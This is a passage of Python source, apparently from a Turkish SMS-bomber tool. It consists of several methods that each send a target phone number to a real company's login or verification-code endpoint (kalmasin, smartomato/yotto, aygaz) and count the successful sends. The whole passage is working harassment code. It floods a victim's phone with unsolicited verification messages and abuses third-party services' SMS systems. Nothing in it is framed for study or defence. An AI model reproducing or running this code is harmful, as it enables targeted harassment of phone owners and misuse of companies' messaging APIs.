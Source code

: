     #kalmasin
    def kalmasin(self):
      try:
        url = "https://api.kalmasin.com.tr/user/login"
        payload = {
            "dil": "tr",
            "device_id": "",
            "notification_mobile": "android-notificationid-will-be-added",
            "platform": "android",
            "version": "2.0.6",
            "login_type": 1,
            "telefon": f"{self.phone}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["success"]
        if r1 == True:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> kalmasin")
            self.adet += 1
        else:
            raise
      except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> kalmasin")

    #yotto
    def yotto(self):
      try:
        url = "https://42577.smartomato.ru/account/session.json"
        payload = {
            "phone" : f"+90 ({str(self.phone)[0:3]}) {str(self.phone)[3:6]}-{str(self.phone)[6:10]}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        if r.status_code == 201:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> yotto")
            self.adet += 1
        else:
            raise
      except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> yotto")

    #aygaz
    def aygaz(self):
      try:
        url = "https://ecommerce-memberapi.aygaz.com.tr/api/Membership/SendVerificationCode"
        payload = {
            "Gsm" : f"{self.phone}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        if r.status_code == 200:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> aygaz")
            self.adet += 1
        else:
            raise
      except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> aygaz")
